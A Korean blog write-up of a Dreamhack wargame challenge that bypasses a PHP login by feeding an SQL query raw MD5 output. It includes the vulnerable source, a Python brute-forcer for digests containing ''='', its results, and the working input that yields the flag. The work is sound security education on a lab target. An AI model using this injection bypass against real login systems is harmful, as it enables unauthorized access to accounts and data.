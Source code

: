 ```yaml
---
title: (30) Dreamhack  [wargame.kr] md5 password 문제풀이
date: 2024-02-05 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 설명
```
md5('value', true);
```

딸랑 이거 주고 끝입니다. 암튼 `md5`함수는 알겠는데 뒤에 있는 `true`는 뭐하는 거냐? 라고 하실 수 있는데, 원래는 16진수로 줄걸 raw binary로 줍니다. 즉 문자 형태로 준다는 거죠.  

이게 이 문제의 핵심입니다. 이제 문제를 봐 봅시다.
## 문제 풀이
사이트에 들어가면 패스워드 입력창이 하나 보입니다.
![](https://kyuyeop.github.io/assets/img/post/30/1.png)
소스코드는 아래와 같습니다.
```php
<?php
 if (isset($_GET['view-source'])) {
  show_source(__FILE__);
  exit();
 }

 if(isset($_POST['ps'])){
  sleep(1);
  include("./lib.php"); # include for $FLAG, $DB_username, $DB_password.
  $conn = mysqli_connect("localhost", $DB_username, $DB_password, "md5_password");
  /*
  
  create table admin_password(
   password char(64) unique
  );
  
  */

  $ps = mysqli_real_escape_string($conn, $_POST['ps']);
  $row=@mysqli_fetch_array(mysqli_query($conn, "select * from admin_password where password='".md5($ps,true)."'"));
  if(isset($row[0])){
   echo "hello admin!"."<br />";
   echo "FLAG : ".$FLAG;
  }else{
   echo "wrong..";
  }
 }
?>
<style>
 input[type=text] {width:200px;}
</style>
<br />
<br />
<form method="post" action="./index.php">
password : <input type="text" name="ps" /><input type="submit" value="login" />
</form>
<div><a href='?view-source'>get source</a></div>
```
아까 그 `md5`함수가 어디갔나 찾아보면
```php
mysqli_query($conn, "select * from admin_password where password='".md5($ps,true)."'")
```
이 sql 쿼리에 들어 있습니다. post로 받은 값을 해시로 만들어 검색하는 모양이군요.  
  
md5해시는 문제가 좀 있습니다. 해시함수가 너무 간단해서 해시로 만드는데 너무 짧은 시간이 걸립니다. 또한 길이도 길지 않고요.  
그래서 특정 조건을 만족하는 md5해시를 구하는데는 일반적인 컴퓨터로도 몇분 정도면 충분합니다. 물론 원문을 모두 복구할 수 있진 않습니다. 대신 몇글자만 일치하는 해시는 금방 찾습니다.(제 컴퓨터로는 초당 75만개 까지 가능하네요)  
  
우리가 찾아야 하는건 뭘까요?  
저 패스워드 부분이 참이 되도록 하려면 두가지 방법이 있습니다.  

첫번째는 우리가 익히 봐온
```
paswword='~~~' or 참#'
password='~~~' or '참'
```
같은 형태입니다. `or`로 password에 관련없이 참 조건을 만들어내는 겁니다. mysql은 문자열로 들어온 값의 첫 글자가 `1~9`사이 숫자면 참으로, 나머지는 모두 거짓으로 간주합니다.  
다만 `'or참#`을 만족시키는 해쉬를 찾기엔 조건이 너무 깁니다. 아무리 md5라도 조건 5글자나 조건을 거는건 너무 오랜 시간이 걸릴겁니다.  
  
다른 방법은 false injection이라는 겁니다.
```
paswword='~~~'='~~~'
```
저도 이건 모르고 있었는데 md5 해쉬중에 대표적인 녀석인가 보더군요. password='~~~'부분이 거짓일때 그걸 다른 거짓과 비교하는 방식인가 봅니다. 이게 가능하려면 약간의 제약 조건이 있습니다.
```
1.해쉬의 = 앞부분이 비밀번호이면 안됨
2.= 뒷부분이 1~9사이 숫자로 시작하면 안됨
```
그래봐야 위에 있던것과 비교하면 `'='`가 들어있는 것만 찾으면 되므로 더 빠르겠죠.  
  
그럼 어떤 걸 해쉬하면 `'='`이 포함되어 있는지만 알면 되겠군요. 파이썬으로 코드를 짜보겠습니다.
```python
from hashlib import md5

for i in range(10000000):
    hash = md5(str(i).encode()).digest()
    if b"'='" in hash:
        print(i, hash)
```
`0~9999999`까지 숫자를 문자로 바꿔서 `'='`이 들어있는지 검사 했습니다. 몇초 걸리지도 않습니다.  
그 결과는
```
1839431 b"\xc37\x90\xa5\xaf\xc4\xb1A@J\xbe'='\xaa\xa9"
2584670 b"\xdf\x8b\x12'='N/\xe6*{\xec\x18\x16\x931"
2632003 b"\x1c\x12(\xcc'='6\xfaQE\x84\x0e\x96\xed\x99"
2998869 b"\xfe\xb2'=':\xe9T\xea\xd6,p\xa7\x80\xf1\xe1"
4939073 b"u}t'Q'='\x14\xd9\xe2\x8e\xec.\xd8\x8a"
5263117 b"e'='\x80\xb0\xb4\xf6\x12\xd6M@KD\x06\xcb"
5273607 b"\xb7\x94a\x9f\x10d\xbe\xc6\x87\x04\xf4;\xac'='"
5872358 b"\x0eY\xb0T\xb3v\xbc\xe0+\xdd\xc6'='\xf5\xff"
7201387 b"V)'='\x0bf\xd6\x081d\xbd\xfa\x9b+\x16"
8930081 b"<4\nx'='\x81\xda\xbf\x8cg\xbc2\xad\x17"
9235566 b"\xee\x83\xe2'='\xd3\x99\xed0\xda\xe8\xa1\xfe\xfd\xeb"
```
이 중에 `'='`다음이 숫자인 것만 걸러서 쓰면 됩니다. `2632003`을 제외하면 다 가능합니다.  
  
그래서 `1839431`을 넣어보면
![](https://kyuyeop.github.io/assets/img/post/30/2.png)
flag가 나옵니다.  
  
만약 앞서 언급합 `2632003`을 넣어보면
![](https://kyuyeop.github.io/assets/img/post/30/3.png)
이렇게 틀렸다고 나오는걸 볼 수 있습니다.
{% endraw %}